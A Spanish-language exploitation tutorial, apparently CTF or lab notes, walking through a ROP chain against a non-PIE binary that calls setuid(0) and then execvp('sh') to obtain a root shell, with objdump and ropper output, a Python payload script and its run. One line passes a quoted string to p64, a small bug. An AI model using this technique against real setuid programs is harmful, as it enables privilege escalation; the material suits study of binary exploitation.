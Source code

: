 

## Programa con funciones interesantes ya incluidas

Fuente: [Savitar-RedCross](https://www.youtube.com/watch?v=prg88ajxAPc)

Tenemos un binario que tiene las funciones "execvp" y "setuid", queremos usarlas pero pasandoles los argumentos que nos de la gana. El PIE desabilitado (direcciones
estáticas)   
Para ello hay que tirar de ROP y pasarle argumentos con las calling conventions(rdi, rsi, rdx, rcx, r8, r9)
```console
[cucuxii@parrot]~$: objdump -D ./binario | grep execv
0000000000400760 <execvp@plt>:               # -> 0x400760
[cucuxii@parrot]~$: objdump -D ./binario | grep setuid
0000000000400780 <setuid@plt>:               # -> 0x400780
[cucuxii@parrot]~$: ropper --search "pop rdi" -f ./binario 
0x0000000000400de3: pop rdi; ret;            # -> 0x400de3
[cucuxii@parrot]~$: ropper --search  "pop rsi" -f ./binario
0x0000000000400de1: pop rsi; pop r15; ret;   # -> 0x400de1
```
```console
gef > grep "sh"
0x40046e   "sh"
```
Execvp es una funcion que pide dos argumentos -> *execvp("sh", 0);* para ello hay que hacer un pop_rdi (primer argumento) y un pop_rsi (segundo argumento)  
Payload -> pop_rdi + sh + pop_rsi + null + execvp
Pero el gadget que nos ha encontrado "0x400de1" aparte de rsi carga un r15 extra, asi que hay que meter otro argumento más nulo para el r15

Tambien está setuid que hay que ejecutarla antes, como requiere de un solo argumento seria pop_rdi + 0 + setuid
```python3
junk = b"A"*18
execvp = p64(0x400760)
setuid = p64(0x400780)
pop_rdi = p64(0x400de3)
pop_rsi = p64(0x400de1)
sh = p64("0x40046e")
null = p64(0x00)

offset = junk
exec_setuid = pop_rdi + null + setuid
exec_execvp = pop_rdi + sh + pop_rsi + null + null + execvp
payload = offset + exec_setuid + exec_execvp

print(payload)
```
```console
[cucuxii@parrot]~$: (python /tmp/exploit.py; cat) | ./binario
whoami
root
```

--------------------------------------------------------------------------------
